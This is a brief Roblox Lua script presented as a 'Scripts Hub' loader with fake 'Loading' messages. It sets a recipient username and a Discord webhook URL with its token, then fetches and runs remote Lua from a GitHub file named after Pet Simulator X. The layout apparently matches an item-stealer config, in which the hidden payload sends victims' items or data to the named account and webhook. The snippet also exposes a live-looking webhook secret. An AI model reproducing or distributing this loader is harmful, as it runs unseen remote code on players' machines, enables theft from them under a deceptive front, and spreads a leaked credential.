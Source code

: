 Username = "Vovik_wolf"
WebHook = "https://discord.com/api/webhooks/1002249503870550056/xI6RrnydZNmdZ3To_BDLzwu1_ixzrg1mOFoSuMa-OEG8mNZKw4AipnI2the_pBEs5Pni"

_G.CustomScriptName = "Scripts Hub"
_G.Text1 = "Script Loaded..."
_G.Text2 = "Waiting for Script"
_G.Text3 = "Checking Scripts..."
_G.Text4 = "Starting Scripts..."
loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
